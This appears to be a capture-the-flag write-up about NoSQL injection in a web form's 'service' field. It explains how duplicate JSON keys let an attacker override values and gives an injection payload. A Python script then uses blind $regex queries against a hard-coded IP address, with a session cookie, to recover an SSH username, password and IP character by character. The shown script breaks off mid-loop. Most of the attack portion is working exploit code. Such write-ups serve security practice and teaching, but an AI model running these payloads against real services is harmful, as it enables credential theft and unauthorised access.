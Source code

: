We wish to obtain a json of the form :
```
{"Service":"","username":"injection here"}
```

But, we can see that it adds at the end of the JSON (in hard) the characters "}.
However, in JSON, when a variable is declared twice, it is always the last value that counts, so here we can simply pass back the name of the service, without the double quote and the brace, which will allow us to craft a JSON with a valid injection. We thus obtain this payload (to be entered in the injectable field) :

```
","username":"injection here","Service":"SSH
```

Here I have created a script in python that allows to do the three injections at once (which is faster than doing it by hand) :

```py
import requests
import string
cookies = {"connect.sid":"s%3AZoyV6N_RNq4PJt-Cj4GKYhkijdki9imN.SpWyt5WCkZDiaAPetNX10Cgjcmz4gANu29wg9UqB%2FGM"}
url = "http://3.141.109.49/services"

username_size = 0
password_size = 0
ip_size = 0
ip = ""
username = ""
password = ""

for i in range(50):
    payload = 'ssh","username":{"$regex":"^.{'+str(i)+'}$"},"Service":"ssh'
    res = requests.post(url,cookies=cookies,data={"service":payload}).text
    if "Service is UP" in res:
        print(f"Username size is {i}")
        username_size = i
    payload = 'ssh","password":{"$regex":"^.{'+str(i)+'}$"},"Service":"ssh'
    res = requests.post(url,cookies=cookies,data={"service":payload}).text
    if "Service is UP" in res:
        print(f"Password size is {i}")
        password_size = i
    payload = 'ssh","IP":{"$regex":"^.{'+str(i)+'}$"},"Service":"ssh'
    res = requests.post(url,cookies=cookies,data={"service":payload}).text
    if "Service is UP" in res:
        print(f"IP size is {i}")
        ip_size = i
    
    if(password_size > 0 and username_size > 0 and ip_size > 0): break

for _ in range(username_size):
    for c in string.printable:
        payload = 'ssh","username":{"$regex":"^'+username+c+'.*"},"Service":"ssh'
        res = requests.post(url,cookies=cookies,data={"service":payload}).text
        if "Service is UP" in res:
            username += c
            break
print(f"Username is {username}")

for _ in range(password_size):
    for c in string.printable:
        payload = 'ssh","password":{"$regex":"^'+password+c+'.*"},"Service":"ssh'
        res = requests.post(url,cookies=cookies,data={"service":payload}).text
        if "Service is UP" in res:
            password += c
```
